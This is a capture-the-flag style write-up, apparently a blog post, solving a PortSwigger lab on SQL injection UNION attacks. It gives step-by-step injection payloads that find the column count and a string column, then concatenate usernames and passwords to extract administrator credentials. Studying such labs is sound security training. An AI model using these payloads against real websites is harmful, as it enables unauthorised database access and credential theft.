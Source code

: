 ```yaml
---
title: 🕸️ PSA - SQLi 6 - UNION attack, retrieving multiple values in a single column
date: 2023-03-06
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test where is the string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--   # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc'--   # works
````

Ok the second column is a string one. To extract both users and passwords columns we will have to concatenate them into just one columns using the special operator `<string> || <string>` (can vary according to the DBMS).

Let’s try on the full request now:

````text
<website>/filter?category=Gifts' UNION SELECT NULL,username || '~' || password FROM users-- # administrator~password
````
